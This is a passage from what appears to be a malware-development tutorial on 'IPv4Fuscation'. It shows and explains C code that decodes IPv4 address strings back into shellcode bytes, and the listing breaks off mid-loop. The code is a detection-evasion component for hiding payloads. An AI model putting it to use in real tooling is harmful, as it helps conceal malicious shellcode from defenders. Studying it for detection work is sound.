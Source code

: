 ### **Deobfuscating IPv4Fuscation Payloads**

The `Ipv4Deobfuscation` function takes in an `Ipv4Array` as the first parameter which is an array of IPv4 addresses. The second parameter is the `NmbrOfElements` which is the number of IPv4 addresses in the `Ipv4Array` array in order to loop through the size of the array. The last 2 parameters, `ppDAddress` and `pDSize` will be used to store the deobfuscated payload and its size, respectively.

The deobfuscation process works by first grabbing the address of `RtlIpv4StringToAddressA` using `GetProcAddress` and `GetModuleHandle`. Next, a buffer is allocated which will eventually store the deobfuscated payload of size `NmbrOfElements` \* 4. The reasoning behind that size is that each IPv4 will generate 4 bytes.

Moving onto the for loop, it starts by defining a new variable, `TmpBuffer`, and setting it to be equal to `pBuffer`. Next, `TmpBuffer` is passed to `RtlIpv4StringToAddressA` as its fourth parameter, which is where the binary representation of the IPv4 address will be stored. The `RtlIpv4StringToAddressA` function will write 4 bytes to the `TmpBuffer` buffer, therefore `TmpBuffer` is incremented by 4, after, to allow the next 4 bytes to be written to it without overwriting the previous bytes.

Finally, `ppDAddress` and `pDSize` are set to hold the base address of the deobfuscated payload as well as its size.


```
typedef NTSTATUS (NTAPI* fnRtlIpv4StringToAddressA)(
	PCSTR		S,
	BOOLEAN		Strict,
	PCSTR*		Terminator,
   	PVOID		Addr
);

BOOL Ipv4Deobfuscation(IN CHAR* Ipv4Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE           pBuffer                 = NULL,
                    TmpBuffer               = NULL;

	SIZE_T          sBuffSize               = NULL;

	PCSTR           Terminator              = NULL;

	NTSTATUS        STATUS                  = NULL;

	// Getting RtlIpv4StringToAddressA address from ntdll.dll
	fnRtlIpv4StringToAddressA pRtlIpv4StringToAddressA = (fnRtlIpv4StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv4StringToAddressA");
	if (pRtlIpv4StringToAddressA == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Getting the real size of the shellcode which is the number of IPv4 addresses * 4
	sBuffSize = NmbrOfElements * 4;

	// Allocating memory which will hold the deobfuscated shellcode
	pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), 0, sBuffSize);
	if (pBuffer == NULL){
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Setting TmpBuffer to be equal to pBuffer
	TmpBuffer = pBuffer;

	// Loop through all the IPv4 addresses saved in Ipv4Array
	for (int i = 0; i < NmbrOfElements; i++) {

```